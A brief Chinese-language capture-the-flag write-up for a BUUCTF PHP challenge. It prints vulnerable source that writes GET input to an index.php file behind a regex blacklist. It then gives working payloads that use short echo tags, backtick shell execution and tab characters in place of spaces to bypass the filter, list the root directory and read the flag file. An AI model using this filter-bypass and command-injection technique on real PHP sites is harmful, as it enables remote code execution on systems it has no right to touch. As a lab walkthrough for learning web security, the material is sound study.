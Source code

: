 ### \t 绕过空格

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d825c788c538a9b5bff9d7.png)

打开页面给出了源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

先看看路径是什么

![](https://pic1.imgdb.cn/item/67d8260f88c538a9b5bff9f2.png)

我们需要知道这个目录下有什么，但是常见的 eval() 函数被过滤了

使用 `` 包裹命令，这样 PHP 就会将里面的内容当成命令执行

最后使用 `<?=` 输出，同时 `\t` 绕过空格

```php
?action=upload&data=<?=`ls\t/`?>
```

![](https://pic1.imgdb.cn/item/67d8277888c538a9b5bffa4d.png)

访问文件拿到 flag

```
?action=upload&data=<?=`cat\t/flllllll1112222222lag`?>
```

![](https://pic1.imgdb.cn/item/67d8279888c538a9b5bffa5d.png)